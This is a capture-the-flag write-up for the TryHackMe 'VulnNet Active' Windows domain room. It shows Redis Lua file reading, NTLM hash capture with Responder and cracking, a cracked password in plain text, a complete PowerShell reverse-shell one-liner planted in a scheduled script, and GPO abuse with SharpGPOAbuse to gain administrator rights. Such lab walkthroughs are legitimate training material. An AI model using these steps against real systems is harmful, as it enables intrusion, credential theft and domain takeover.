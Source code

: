# 9 - AD - VulnNet Active

Room link --> [https://tryhackme.com/room/vulnnetactive](https://tryhackme.com/room/vulnnetactive)

Nmap Scan returns: `sudo nmap -sSVC -p- -v -Pn -T4 10.10.102.28`&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
6379/tcp  open  redis         Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49822/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

### Redis (port 6379)

[https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
# automatic enumeration.
nmap --script redis-info -sV -p 6379 <IP> -Pn
msf> use auxiliary/scanner/redis/redis_server

# mannual enumeration.
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools.
10.10.66.252:6379> INFO # gives some info about the server-client.
10.10.66.252:6379> CONFIG GET * # we got a username here: [104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"]

```
{% endcode %}

So the current user name is `enterprise-security`.

### Exploitation <a href="#exploitation-of-redis" id="exploitation-of-redis"></a>

Going through the HackTricks list, we find an [article](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) that shows how to exploit earlier versions of Redis (our version 2.8.2402 is amongst them):

{% hint style="warning" %}
“Redis can execute Lua scripts (in a sandbox, more on that later) via the “EVAL” command. The sandbox allows the dofile() command (WHY???). It can be used to enumerate files and directories. No specific privilege is needed by Redis… If the Lua script is syntaxically invalid or attempts to set global variables, the error messages will leak some content of the target file”
{% endhint %}

#### Reading files <a href="#reading-files" id="reading-files"></a>

As explained in the linked article, the command we use is the following:

{% code overflow="wrap" lineNumbers="true" %}
```bash
redis-cli -h 10.10.245.19 eval "dofile('<PATH TO FILE>')" 0
```
{% endcode %}

We try to read some of the [common windows files](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/file\_inclusion\_windows.txt) that are usually used for Local File Inclusion.

Let's read the "user.txt" file as asked in the question:

{% code overflow="wrap" lineNumbers="true" %}
```bash
10.10.66.252:6379> EVAL "dofile('C:/Users/enterprise-security/Desktop/user.txt')" 0
```
{% endcode %}

#### SMB credentials capturing[#](https://blog.raw.pm/en/TryHackMe-VulnNet-Active-write-up/#SMB-credentials-capturing) <a href="#smb-credentials-capturing" id="smb-credentials-capturing"></a>

LUA `dofile()` allows us to request a file but since we are on Windows it allows us to request a share as well for example: `dofile('//host/share')`.

So if we launch a SMB server with Responder on one hand and force the server to request a fake share on the other hand, we should be able to capture a NTLM hash.

#### Step 1

we first set up a listener using `Impacket's Responder.py`.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# listener.
sudo responder -i tun0

# request for a fake share.
redis-cli -h EVAL "dofile('//10.18.88.214/fakeshare')" 0
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

We captured the NTLMv2 hash for "enterprise-security" user account, we can crack it:

Using haiti to detect the hash type:&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt` - crackin with hashcat.

`john hash.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt` - cracking with john.

{% hint style="info" %}
sand\_0873959498 <--> enterprise-security
{% endhint %}

We have valid credentials now to enumerate SMB.

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient -L \\\\10.10.117.3\\ -U 'enterprise-security'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>3</p></figcaption></figure>

Connecting to the "Enterprise-Share"

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbclient \\\\10.10.117.3\\Enterprise-Share -U enterprise-security
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>4</p></figcaption></figure>

We viewed the .ps1 script file, and see its a scheduled script.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dkingws)-[~]
└─$ cat PurgeIrrelevantData_1826.ps1 
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```
{% endcode %}

We could replace this with a Powershell Oneliner to get a reverse shell.

{% code overflow="wrap" lineNumbers="true" %}
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.18.88.214',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>5</p></figcaption></figure>

And we got a shell.

#### Priv Esc

We have "SeImpersonatePrivilege", so we could use Potatoe attack or use BloodHound to find another path.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>6</p></figcaption></figure>

I used Metasploit and got "Nt Authority".

#### 2nd Method for Priv Esc:

After gaining initial access using the Powershell script, we can use "SharpHound.exe" to gather Domain info, then feed the data to BloodHound to give us shortest path to Admin or Domain Admin.

{% code overflow="wrap" lineNumbers="true" %}
```bash
.\SharpHound.exe -c All
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>7</p></figcaption></figure>

&#x20;We can use BloodHound to analyse the found data: Immediately, BloodHound gives us the shortest path from our current user `enterprise-security` to the `Administrator`. Apparently, we do have `GenericWrite` Permissions to one of the `GPO`s - namely `security-pol-vn`.

Copy the .zip file to the Share folder, then download to kali for use in BloodHound.

`powershell cp .\20230907143943_BloodHound.zip C:\Enterprise-Share\20230907143943_BloodHound.zip` .

We can use the [SharpGPOAbuse.exe](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master) binary to exploit the "GenericWrite" permission on that GPO object.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption><p>8</p></figcaption></figure>

We can do a `gpupdate /force` - to force update the settings, then when we do a `net users enterprise-security` - we should be added to the Administrator groups now.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption><p>9</p></figcaption></figure>

Note we are not able to go into the Administrator folder from the shell, but we can access the Administrator folder via the SMB share.

`smbclient \\10.10.92.208\C$ -U enterprise-security` .

DONE !
